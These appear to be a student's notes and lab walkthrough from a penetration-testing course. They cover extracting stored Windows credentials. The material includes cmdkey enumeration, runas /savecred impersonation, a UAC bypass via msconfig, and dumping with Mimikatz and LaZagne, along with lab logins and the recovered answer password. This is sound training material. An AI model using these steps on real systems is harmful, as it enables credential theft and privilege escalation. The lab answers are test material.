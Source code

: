 ## Windows Vault and Credential Manager
[Credential Manager](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication#windows-vault-and-credential-manager) is a feature built into Windows since `Server 2008 R2` and `Windows 7`. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles ([MITRE ATT&CK](https://attack.mitre.org/techniques/T1555/004/)):
- `%UserProfile%\AppData\Local\Microsoft\Vault\`
- `%UserProfile%\AppData\Local\Microsoft\Credentials\`
- `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
- `%ProgramData%\Microsoft\Vault\`
- `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`

Each vault folder contains a `Policy.vpol` file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials. Newer versions of Windows make use of `Credential Guard` to further protect the DPAPI master keys by storing them in secured memory enclaves ([Virtualization-based Security](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs)).

Microsoft often refers to the protected stores as `Credential Lockers` (formerly `Windows Vaults`). Credential Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders. The following table lists the two types of credentials Windows stores:

|Name|Description|
|---|---|
|Web Credentials|Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.|
|Windows Credentials|Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.|


![[Pasted image 20250930153916.png]]It is possible to export Windows Vaults to `.crd` files either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.

```cmd
C:\Users\sadams> rundll32 keymgr.dll,KRShowKeyMgr
```

![[Pasted image 20250930154848.png]]

## Enumerating credentials with cmdkey
```cmd
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Stored credentials are listed with the following format:

| Key         | Value                                                                                                                                                      |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Target      | The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.                                        |
| Type        | The kind of credential. Common types are `Generic` for general credentials, and `Domain Password` for domain user logons.                                  |
| User        | The user account associated with the credential.                                                                                                           |
| Persistence | Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with `Local machine persistence` survive reboots. |
The first credential in the command output above, `virtualapp/didlogical`, is a generic credential used by Microsoft account/Windows Live services. The random looking username is an internal account ID. This entry may be ignored for our purposes.

The second credential, `Domain:interactive=SRV01\mcharles`, is a domain credential associated with the user SRV01\mcharles. `Interactive` means that the credential is used for interactive logon sessions. Whenever we come across this type of credential, we can use `runas` to impersonate the stored user like so:

```cmd
C:\Users\sadams> runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```
![[Pasted image 20250930155141.png]]

## Extracting credentials with Mimikatz
We can either dump credentials from memory using the `sekurlsa` module, or we can manually decrypt credentials using the `dpapi` module. For this example, we will target the LSASS process with `sekurlsa`:

```cmd-session
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```
**Note:** Some other tools which may be used to enumerate and extract stored credentials included [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [LaZagne](https://github.com/AlessandroZ/LaZagne), and [DonPAPI](https://github.com/login-securite/DonPAPI).

### Questions

User: sadams
Pass: totally2brow2harmon@
Target IP: 10.129.234.171

1. What is the password mcharles uses for OneDrive?
```shell
cmd> rundll32 keymgr.dll,KRShowKeyMgr
(This dump credential manager)

cmd> cmdkey /list

Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
    
    
cmd> runas /savecred /user:SRV01\mcharles cmd

New CMD opens with as user SRV01\mcharles

Transfer mimkatz.exe.
We cannot use mimikatz now becausee we don't have enough permissions. We will have to bypass UAC at first. Let's try to bypass UAC with msconfig.

cmd> cd C:\Windows\System32
cmd> .\msconfig.exe
```
![[Pasted image 20250930172518.png]]

```shell
Just click on Command Prompt and Launch.
We can see with whoami /priv that we gain privileges on this CMD session.

cmd> cd C:\Temp
cmd> .\mimikatz.exe

mimikatz# privilege debug
mimikatz# sekurlsa::credman'
```
![[Pasted image 20250930172947.png]]

```shell
Password: Inlanefreight#2025
```

### Other Technique without UAC bypass
```shell
Transfer LaZagne.exe to target machine

cmd> .\LaZagne.exe all
```
![[Pasted image 20250930173536.png]]